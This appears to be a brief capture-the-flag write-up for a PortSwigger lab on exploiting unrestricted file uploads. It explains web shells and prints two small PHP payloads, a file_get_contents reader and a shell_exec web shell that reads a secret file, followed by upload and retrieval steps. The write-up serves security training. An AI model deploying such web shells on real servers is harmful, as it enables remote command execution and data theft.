 ```yaml
---
tags: ["webshell"]
image: "img/Portswigger/file-upload.jpg"
---
```


## Exploiting unrestricted file uploads to deploy a web shell

From a security perspective, the worst possible scenario is when a website allows you to upload server-side scripts, such as PHP, Java, or Python files, and is also configured to execute them as code. This makes it trivial to create your own web shell on the server.

> A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.

If you're able to successfully upload a web shell, you effectively have full control over the server. This means you can read and write arbitrary files, exfiltrate sensitive data, even use the server to pivot attacks against both internal infrastructure and other servers outside the network. For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

## Challenge

> In this challenge we just have to upload a webshell to read the flag from `/home/carlos/secret`

--> So i made this payload :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> After successful upload right click on the image and select `copy image path` and paste in url and you will find the flag!

![](Attachments/Pastedimage20220124122314.png)
